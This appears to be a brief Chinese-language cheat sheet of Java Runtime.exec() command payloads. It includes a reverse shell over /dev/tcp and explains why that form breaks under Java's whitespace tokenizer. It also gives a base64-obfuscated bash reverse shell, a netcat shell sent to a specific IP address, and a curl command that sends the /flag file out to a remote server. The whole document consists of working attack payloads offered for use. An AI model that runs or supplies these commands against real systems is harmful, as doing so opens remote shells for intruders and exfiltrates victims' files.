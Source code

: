 # 命令

1、

```java
Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1"); //这是错误的，底层原因是因为StringTokenizer 通过分割符进行分割，java 默认的分隔符是空格("")、制表符(\t)、换行符(\n)、回车符(\r)
```

2、

```java
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}");
```

3、

```java
Runtime.getRuntime().exec("nc 47.108.223.91 1234 -e /bin/sh");
```

4、

`外带尤其值得注意`

```java
Runtime.getRuntime().exec("curl vps -d @/flag");
```

